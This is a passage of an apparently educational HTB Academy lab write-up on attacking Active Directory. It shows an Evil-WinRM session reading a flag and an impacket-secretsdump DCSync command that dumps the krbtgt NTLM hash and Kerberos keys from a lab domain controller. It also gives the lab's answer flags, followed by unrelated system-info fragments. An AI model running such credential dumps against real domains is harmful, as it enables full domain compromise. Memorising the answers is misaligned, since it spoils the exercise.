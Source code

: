 ---- ------------- ------ ----

-a---- 4/20/2022 3:46 AM 17 flag.txt

​

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt

acLs_f0r_th3_w1n!

**Answer:** `**acLs_f0r_th3_w1n!**`

### 

12. Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#12.-submit-the-ntlm-hash-for-the-krbtgt-account-for-the-target-domain-after-achieving-domain-comprom)

┌─[htb-student@skills-par01]─[~]

└──╼ $impacket-secretsdump INLANEFREIGHT.LOCAL/CT059@172.16.7.3 -just-dc-user krbtgt

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

​

Password:

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)

[*] Using the DRSUAPI method to get NTDS.DIT secrets

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f:::

[*] Kerberos keys grabbed

krbtgt:aes256-cts-hmac-sha1-96:b043a263ca018cee4abe757dea38e2cee7a42cc56ccb467c0639663202ddba91

krbtgt:aes128-cts-hmac-sha1-96:e1fe1e9e782036060fb7cbac23c87f9d

krbtgt:des-cbc-md5:e0a7fbc176c28a37

[*] Cleaning up...

**Answer:** `**7eba70412d81c1cd030d72a3e8dbe05f**`

[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0